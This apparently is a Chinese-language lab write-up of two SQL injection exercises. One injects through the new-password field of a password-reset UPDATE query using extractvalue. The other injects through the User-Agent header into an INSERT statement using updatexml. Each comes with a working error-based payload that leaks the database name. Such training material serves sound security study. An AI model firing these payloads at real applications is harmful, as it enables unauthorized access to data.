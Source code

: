 

此题为一道修改语句`update`的sql注入题。

通过报错注入`extractvalue`注入

​	简单说，后端的执行逻辑为：

1. 先`sql`查询输入的用户名`select`
2. 再根据查出来的用户名去修改`update`



其实这道题本身很简单，主要就在于你没想到他数据用户名的地方做了过滤。而输入新密码的地方没有过滤。

导致必须输入正确的用户名，例如:`dumb`。(ps.无法注入)

但是新密码则可以注入



payload：

```
								password reset
Username:dumb
NewPassword:1' where id=1 or extractvalue(1,concat(0x7e,(select database())))#
```





猜测后端sql语句：

```
查询用户：select * from users where username='前端传来的用户名' limit 0,1;
更新用户：update users set password='前端传来的用户新密码' where username='前面查询到的语句';
```



#### 18.User-Agent注入



此题为一道User-Agent注入题。其本质上是一道插入语句`insert into`的注入题



此题的大概思路是：因为后端会把`User-agent`记录进数据库。所以通过报错注入`User-Agent`就可以绕过



payload:

```
' or updatexml(1,concat(0x7e,(select database()),0x7e),1),'172.0.0.1','world')#
```

> 这里的payload，如果不输入正确密码的话是不能用的。

> 注意这里的`payload`是请求头中的User-Agent。

> 想要报错注入，首先得构造的语句本身不报错。此处的插入的数据有3条，所以一一对应着来。





